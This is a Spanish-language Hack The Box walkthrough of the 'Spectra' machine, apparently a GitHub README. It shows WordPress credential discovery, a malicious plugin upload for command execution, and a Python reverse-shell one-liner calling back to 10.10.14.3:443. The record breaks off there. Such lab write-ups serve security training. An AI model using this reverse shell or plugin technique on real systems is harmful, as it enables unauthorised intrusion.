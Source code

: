 #by d4l1

<p align="center"><img src=""></p>

<h1 align="center">Spectra</h1>

# ÍNDICE

# INTRODUCCIÓN

Spectra es una máquina linux de dificultad fácil el que contiene un software de tracking construido en Wordpress. Este servidor lista un directorio con credenciales en el cual ganaremos acceso al manager de administrador. Construyendo un plugin malicioso

Enumerando unas nuevas credenciales y capturandolas para coger otoro usuario. Finalmente un problema de configuración permite hacer acciones de sudo en los servicios y ganado el root.

Primero de todo tes de conectividad

![image](https://github.com/D4l1-web/HTB/assets/79869523/0607b6f2-0635-4c7b-8aec-8c8292e95689)

Escaner de puertos

![image](https://github.com/D4l1-web/HTB/assets/79869523/b4391565-6aa4-4a3d-b862-e2e3d3cfe930)

Como podemos ver nos encontramos cono un servicio SSH, Nginx y un MySQL en los puertos por defecto. No hemos mencionado que la versión de nginx es vulnerable a RCE

Podemos irnos al puerto 80 y ver la página y veremos a que tenemos acceso

![image](https://github.com/D4l1-web/HTB/assets/79869523/dd1fc5e4-d199-4667-abdb-dc10130caf2e)

Nos encontramos si busacmos en el dominio "spectra.htb"

```
echo "ip spectra.htb" | sudo tee -a /etc/hosts
```

Si nos vamos al dominio encontramos esto 

![image](https://github.com/D4l1-web/HTB/assets/79869523/0e565c34-c008-472a-8578-0db391ea019a)

Encontramos el directorio /testing/ que es importante

![image](https://github.com/D4l1-web/HTB/assets/79869523/d707a2a2-45aa-4fc3-a082-ca99668b4b95)

De todo la vida el wp-config.php estan las credenciales veamos, vemos que ha sido editado y hay otro archivo con un .save

![image](https://github.com/D4l1-web/HTB/assets/79869523/c47fc130-5897-4bb0-8ff0-33f2452a17cb)

Si probamos con las credenciales que nos dan nos da error, pero si en el usuario ponemos "administrator" nos deja entrar 

![image](https://github.com/D4l1-web/HTB/assets/79869523/98e19537-2512-4f59-ba44-a583b95a95bc)

Teniendo privilegios de administrador en una instancia de Worpress, hace que tengamos muchas tecnicas que puedan dar una ejecución de comando en el servidor. Un metodo es subir un plugin malicioso y guardarlo como wp-maintenance.php

![image](https://github.com/D4l1-web/HTB/assets/79869523/68907b04-ab02-42a7-83c3-63ad4b1a6163)

Una vez creado el archivo podemos irnos a plugins y añadir uno elegir el archivo e instalarlo

![image](https://github.com/D4l1-web/HTB/assets/79869523/28fbafb1-3d32-45b1-8d02-8a2d8d844f90)

Nos da error vamos a probar a comprimirlo

![image](https://github.com/D4l1-web/HTB/assets/79869523/277ebbf7-5426-44bb-a527-4a1740b57de9)

![image](https://github.com/D4l1-web/HTB/assets/79869523/f674863f-cea3-4929-b0db-7020f94287e3)

![image](https://github.com/D4l1-web/HTB/assets/79869523/7dc8fd01-cd5a-4247-9aaa-1af07ad94934)

Ahora nosotros podemos navegar a esa url y probar si podemos ejecutar comandos

![image](https://github.com/D4l1-web/HTB/assets/79869523/8e40edb7-f7d7-42b2-bf80-cab642dee3fd)

Podemos hacer una revershe shell con python

```
cmd=python -c 'import
socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.
10.14.3",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```










